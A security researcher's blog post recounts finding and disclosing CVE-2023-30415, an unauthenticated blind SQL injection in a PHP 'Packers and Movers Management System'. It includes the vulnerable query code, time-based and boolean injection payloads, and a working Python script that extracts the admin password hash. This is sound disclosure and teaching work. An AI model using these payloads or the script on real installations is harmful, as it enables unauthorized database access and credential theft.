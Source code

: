```yaml
---
layout: post
title: Getting my first CVE
description: The frustrations and thrills of open source code review.
summary: An OSWE victory lap.
tags: reflections tutorials
---
```



After passing my OSWE in March and dealing with some long neglected life issues, I decided to put my skills to the test and hunt for a CVE. It felt like a rite of passage for OSWE passers. 

**Recon**

My first approach was to find projects written in languages that are easy to make mistakes in but that are also very popular. PHP is the prime candidate here, so I looked up php open source projects on google and quickly discovered sourcecodetester.com among the first results.

![](/assets/images/sourcecodetester.png)

I started perusing through random projects and downloading them locally to run them. This approach netter me a substantial number of critical findings, but whenever I wanted to report them to MITRE, I would find out that they were already assigned a CVE. Nonetheless, it was a nice confidence booster that I was able to find those vulnerabilities so easily. 

This meant I had to up my game a bit. I had to look for projects that were at least somewhat secure. After a more careful analysis, I found the [Packers and Movers Management system](https://www.sourcecodester.com/php/15360/packers-and-movers-management-system-phpoop-free-source-code.html)

What caught my attention on this project was that the admin pages called in a header function that itself was checking for session. 


![](/assets/images/header.png)

![](/assets/images/session.png)


This was good news, it meant that whoever designed this took some authorization considerations into account.

**Exploit Discovery**

I took a shortcut here, and instead of following user input paths like I normally do, I went straight to the source code and searched for "query" in an attempt to grab an easy win. 

![](/assets/images/query.png)

I found some results, but they were all behind the dreaded admin login, which would drastically reduce the impact of those findings.

However, upon a closer inpection, I quickly realized that the header function was only used for the direct subpages of /admin, but would often not be used deeper into the application.

As an example, /admin/index.php uses the header, but /admin/inquiries/view_inquiry.php does not and also uses an unsanitized query right at the start of the file!

![](/assets/images/inquiry.png)

I was able to locate this particular piece of code in the application.

![](/assets/images/page.png)

This meant that any input after the id parameter would pass unfiltered through these 2 lines:
```php
    $conn->query("UPDATE `inquiry_list` set `status` = 1 where id = '{$_GET['id']}'");
    $qry = $conn->query("SELECT **  from `inquiry_list` where id = '{$_GET['id']}'");
```

Since view_inquiry.php does not use the session header, it means that we can attack the id parameter without any need for authentication. 

Let's test it with a classic SLEEP payload:

```text
GET /mpms/admin/?page=inquiries/view_inquiry&id=4'+AND+(SELECT+1+FROM+(SELECT(SLEEP(2)))test)--+
```

![](/assets/images/sleep.png)

Looking at the response time, we can see it took just over 8 seconds, which happens because the id parameter is passed through two querries. That confirms our Blind SQL Injection.

Let's experiment with some more payloads and look if there are any differences in the content length.

```text
GET /mpms/admin/?page=inquiries/view_inquiry&id=4'+AND+(ascii(substring((SELECT+password+FROM+mpms_db.users+WHERE+id=1+LIMIT
+1),1,1))=48)--+ 
GET /mpms/admin/?page=inquiries/view_inquiry&id=4'+AND+(ascii(substring((SELECT+password+FROM+mpms_db.users+WHERE+id=1+LIMIT
+1),1,1))=47)--+ 
```

![](/assets/images/fuzz1.png)
![](/assets/images/fuzz2.png)

It does look like we get different content lengths when the exploit fails to execute. This means we can start working on an exploit right away.

**The Exploit**

The exploit is actually surprisingly simple. I ended up pruning the GET request of all uneccessary headers to get the request size down, wrote a for loop for the Blind SQL Injection and then a get_token function to store the token. Here it is:

```python
import requests

session = requests.session()

expected_size = 26845

def get_char(session, pos):
    for char in range(32, 126):
        sql_payload = f'\' AND (ascii(substring((SELECT password FROM mpms_db.users WHERE id=1 LIMIT 1),{pos},1))={char})-- '
        r = session.get('http://localhost:80/mpms/admin/?page=inquiries/view_inquiry&id=4' + sql_payload)
        #print(len(r.content))
        if len(r.content) == expected_size:
            return chr(char)
    print('Error at ' + str(char))
    exit()

def get_token(session):
    token = ""
    for pos in range(1, 33):
        token += get_char(session, pos)
    print("The Full MD5 password is " + str(token))    
    return token

get_token(session)
```

All that preparation for 25 lines of code. Let's run it and wait a few seconds:

![](/assets/images/exploit.png)

We now have our MD5 password. Passing it through an online hash cracker, we get the password admin123:

![](/assets/images/cracked.png)

Which is exactly the password used in the source page:

![](/assets/images/source.png)

**The Report**

With those proofs in hand, I used the CVE MITRE website to complete the form and report the CVE via [https://www.cve.org/ReportRequest/ReportRequestForNonCNAs](https://www.cve.org/ReportRequest/ReportRequestForNonCNAs).


After about a month, I received my CVE ID, CVE-2023-30415

![](/assets/images/cve.png)

I have emailed sourcecodester.com with a detailed explanation of the exploit and the proof of concept. Considerably way over 90 days have passed since, so this is me making it public as according to the reasonable disclosure procedure.

Overall, I had a lot of fun finding my first CVE, as trivial as it was. It helped me developed my own confidence and ability to quickly scan code repos for common mistakes. I have been busy with other interests lately but I have managed to secure a decent amount of AppSec and code review engagements at work, so I have been doing my best to keep learning and hone my skills even if I am not actively hunting for CVEs. I would recommend any aspiring AppSec hacker to have a go at it, even if you don't manage to secure a CVE, just finding some vulnerabilities will do wonders for your confidence.

